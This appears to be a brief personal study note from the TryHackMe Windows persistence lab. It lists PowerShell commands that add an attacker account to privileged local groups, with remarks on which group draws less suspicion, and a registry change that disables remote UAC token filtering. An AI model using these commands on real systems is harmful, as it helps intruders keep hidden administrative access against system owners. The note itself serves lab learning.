 # Windows  Persistance

For general overview of persistance that OS neutral: [[Persistence]].



## Tampering With unprivilieged Accounts

Assign Groups Memberships

```powershell
net localgroup administrators hacker /add
net localgroup "Backup Operators" hacker /add # Less suspicious - cant RDP or WinRM
net localgroup "Remote Management Users" hacker /add # Same as the above but can remote in
```


```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## References
[THM Windows Persistance Room](https://tryhackme.com/room/windowslocalpersistence)